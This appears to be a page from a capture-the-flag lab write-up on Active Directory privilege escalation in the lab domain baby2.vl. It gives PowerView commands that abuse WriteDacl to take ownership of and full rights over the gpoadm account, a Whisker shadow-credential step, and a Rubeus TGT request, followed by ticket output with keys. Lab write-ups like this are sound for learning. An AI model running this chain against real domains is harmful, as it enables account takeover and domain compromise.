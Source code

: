<div style="page-break-after: always;"></div>


# Privilege Escalation

With the bloodhound output that we can get with the library user we can see that Amelia has `WriteDacl` for the `GPOADM` user which has `GenericAll` on the Default Domain Policy

First we will give us (Amelia) GenericAll on the `gpoadm` Object and then get the shadow credentials with `whisker`

```
# Set Amelia as Owner
Set-DomainObjectOwner -Identity gpoadm -OwnerIdentity amelia.griffiths


# Check if we are the Owner of the gpoadm Object
get-aduser gpoadm | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}

# Set Rights to all
Add-DomainObjectAcl -PrincipalIdentity Amelia.Griffiths -TargetIdentity gpoadm -Rights All

# pywhisker 
.\whisker.exe add /target:gpoadm /domain:baby2.vl /dc:dc.baby2.vl /path:C:\windows\tasks\cert.pfx /password:somepassword


.\Rubeus.exe asktgt /user:gpoadm /certificate:C:\windows\tasks\cert.pfx /password:"somepassword" /domain:baby2.vl /dc:dc.baby2.vl /getcredentials /show

```

<div style="page-break-after: always;"></div>

```

Output: 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=gpoadm 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'baby2.vl\gpoadm'
[*] Using domain controller: fe80::f73b:ea1a:e600:55c3%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      ...

  ServiceName              :  krbtgt/baby2.vl
  ServiceRealm             :  BABY2.VL
  UserName                 :  gpoadm
  UserRealm                :  BABY2.VL
  StartTime                :  5/2/2024 2:12:16 PM
  EndTime                  :  5/3/2024 12:12:16 AM
  RenewTill                :  5/9/2024 2:12:16 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  pTKOekJzjFvViZk6FgCtVQ==
  ASREP (key)              :  AFBB6B5FD47C71C2CE569D3B73E6C409

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
```